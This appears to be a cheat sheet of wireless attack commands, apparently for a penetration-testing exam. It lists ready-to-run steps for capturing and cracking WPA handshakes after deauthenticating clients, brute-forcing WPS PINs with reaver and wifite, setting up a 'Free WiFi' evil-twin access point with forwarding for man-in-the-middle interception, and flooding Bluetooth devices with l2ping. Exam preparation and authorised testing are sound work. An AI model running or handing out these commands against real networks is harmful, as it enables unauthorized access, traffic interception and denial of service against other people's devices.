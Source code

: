 ```
airodump-ng --bssid AP:MAC --channel 6 -w capture wlan0mon
```

### WPA/WPA2 Cracking (Guaranteed Exam Task)

Capture handshake (wait for client connection)

```
aireplay-ng --deauth 10 -a AP:MAC -c CLIENT:MAC wlan0mon
```

Crack with aircrack

```
aircrack-ng -a2 -w rockyou.txt capture-01.cap
```

### WPS PIN Attacks (Exam Favorite)

Reaver brute force

```
reaver -i wlan0mon -b AP:MAC -vv -K 1 -d 3
```

Wifite automated attack

```
wifite --wps --reaver
```

### Rogue Access Points

Create evil twin

```
airbase-ng -a AP:MAC --essid "Free WiFi" -c 6 wlan0mon
```

MITM setup

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### Bluetooth Hacking

Discover devices
```
hcitool scan
```

BlueSmacking (DoS)

```
l2ping -i hci0 -s 600 -f TARGET:MAC
```
